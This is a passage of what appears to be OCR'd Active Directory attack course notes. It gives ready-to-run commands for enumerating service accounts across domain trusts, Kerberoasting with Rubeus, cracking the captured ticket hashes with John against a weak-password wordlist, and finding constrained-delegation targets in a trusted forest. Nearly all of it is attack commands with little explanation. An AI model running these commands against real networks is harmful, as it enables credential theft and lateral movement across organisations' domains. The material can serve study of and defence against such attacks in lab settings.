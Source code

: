 ```
Get-DomainTrust | ?{$_.TrustAttributes -eq
'FILTER_SIDS'} | %{Get-DomainUser -SPN -Domain
$_.TargetName}
```


Using ActiveDirectory Module:

```
Get-ADTrust -Filter 'IntraForest -ne $true' | %{Get-
ADUser -Filter {ServicePrincipalName -ne "$null"} -
Properties ServicePrincipalName -Server $_.Name}
```

Request a TGS

```
C:\AD\Tools\Rubeus.exe kerberoast /user:storagesvc /simple
/domain:eu.local /outfile:euhashes.txt
```

Check for the TGS

```
klist
```

Crack using John

```
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt
C:\AD\Tools\hashes.txt
```

Request TGS across trust using PowerShell

```
Add-Type -AssemblyName System.IdentityModel
$token = New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/eu-file.eu.local@eu.local"
```

#### Constrained Delegation with Protocol Transition

• The classic Constrained Delegation does not work across forest trusts.

• But we can abuse it once we have a beachhead/foothold across forest trust.

Using PowerView

```
Get-DomainUser –TrustedToAuth -Domain eu.local
Get-DomainComputer –TrustedToAuth -Domain eu.local
```

Using ActiveDirectory module:

```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -
Properties msDS-AllowedToDelegateTo -Server eu.local
```
